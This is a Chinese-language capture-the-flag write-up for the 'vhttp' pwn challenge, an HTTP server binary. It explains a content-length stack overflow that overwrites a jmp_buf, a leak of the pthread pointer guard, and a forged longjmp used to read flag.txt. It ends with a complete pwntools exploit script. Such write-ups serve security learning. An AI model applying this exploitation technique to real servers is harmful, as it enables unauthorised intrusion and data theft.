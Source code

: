# vhttp

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|libc  |2.31-0ubuntu9.12|

## 解题思路

程序实现了一个简单的http服务器，没有路径穿越符漏洞；不能直接打开目录下的flag.txt，
是由`strstr`拦截的；不能使用`%2F`这样的转义字符串，服务器不支持。那就逆一下程序，
对于输入的三元组和键值对来说，都没有什么bug。但是主函数里只取用了`content-length`这一个标头，
跟到解析请求资源的函数里，发现程序会按`content-length`读入这么多的字节数，
并且没有做限制。观察栈上结构，在输入的`buf`之上是用于`longjmp`的`jmp_buf`，
触发条件也有，因此尝试覆写之。程序通过特定字符串的判断，给了1次读取栈上内容的机会，
也给了`longjmp`的机会。

这道题采用了`fread`，不同于`read`，`fread`只有读取指定的长度后才会停止，
不像`read`只需要`send`结束就可以结束输入。那么就出现了一个问题：
`jmp_buf`的结构中RBP、RSP、RIP是受`fs:[0x30]`保护的，要想读取它们来解密`fs:[0x30]`就不能覆盖，
但是为了利用这个结构体却不能覆盖。难道要打rop？程序是没有返回的！
任何结果都是直接`exit`的。那么在栈上查找其他数据，发现还有一个`jmp_buf`:

```c
struct jmp_buf {
    size_t rbx;
    size_t rbp;
    size_t r12;
    size_t r13;
    size_t r14;
    size_t r15;
    size_t rsp;
    size_t rip;
    ...
};
```

![one more jmp_buf](assets/oneMoreJmpbuf.png)

而这个`jmp_buf`是由程序使用了pthread库后创建线程带来的，其中的RBP是0，
那么RBP的位置可以直接获得`guard`(`fs:[0x30]`)的值，还可以获得一个主线程的栈地址。为了读取`flag.txt`，
我们需要想方设法在栈上留一个`&'flag.txt'`，三元组是保存在`bss`上的，content是保存在子线程的栈上的，
而这个栈帧的值我们是不知道的，只有标头键值对中的最后一组会留在主线程的栈上。
那么只要最后写一个`flag.txt`的标头就可以做到，然后设置好RBP、RSP，将RIP设置为`0x401ec7`，
就可以让程序读取`flag.txt`并打印flag。

![flag on stack](assets/flagOnStack.png)
> 温馨提示：与上图不是一个进程

![jump to ...](assets/jumpto.png)

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './vhttp'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x401dd1')
    else:
        sh = remote('node5.buuoj.cn', 27536)
    elf = ELF(EXE)

    ADD_LINE = lambda s, cont: s + cont + '\r\n'

    base = ADD_LINE('', 'GET / HTTP/1.0')
    base = ADD_LINE(base, 'content-length: {}')
    base = ADD_LINE(base, 'flag.txt: 0')
    base = ADD_LINE(base, '')

    toleak = base.format(512 + 0x100 + 8).encode()
    sh.send(toleak)
    
    toleak = b'\r\nuser=newbew'.ljust(512 + 0x100) + b'LEAK PTR'
    sh.send(toleak) # leak the jmp_buf from pthread
    sh.recvuntil(b'LEAK PTR')

    encrypted = sh.recv(8)
    stack = u64(sh.recv(6) + b'\0\0')
    
    guard = 0
    PTR_DEMANGLE = lambda reg: ((reg >> 17) | ((reg & 0x1ffff) << (64 - 17))) ^ guard
    PTR_MANGLE = lambda reg: (((reg ^ guard) & 0x7fffffffffff) << 17) \
                            | (((reg ^ guard) & 0xffff800000000000) >> 64 - 17)

    guard = PTR_DEMANGLE(u64(encrypted))
    success(f'Leak ptr guard: {guard:#x}')
    success(GOLD_TEXT(f'Leak stack: {stack:#x}'))

    rbp = stack - 0xe + 0xe0 # now rbp points to &'flag.txt'
    rbp += 0x3a0 # now rbp is "resolved file path"
    tojump = b'&pass=v3rdant'.ljust(0x200) + p64(0) + p64(PTR_MANGLE(rbp)) + \
            p64(0) * 4 + p64(PTR_MANGLE(rbp - 0x3e0)) + p64(PTR_MANGLE(0x401ec7))
    tojump = tojump.ljust(0x308)
    sh.send(tojump)

    sh.recvuntil(b'DASCTF{')
    flag = b'DASCTF{' + sh.recvuntil(b'}')
    success(flag.decode())
```
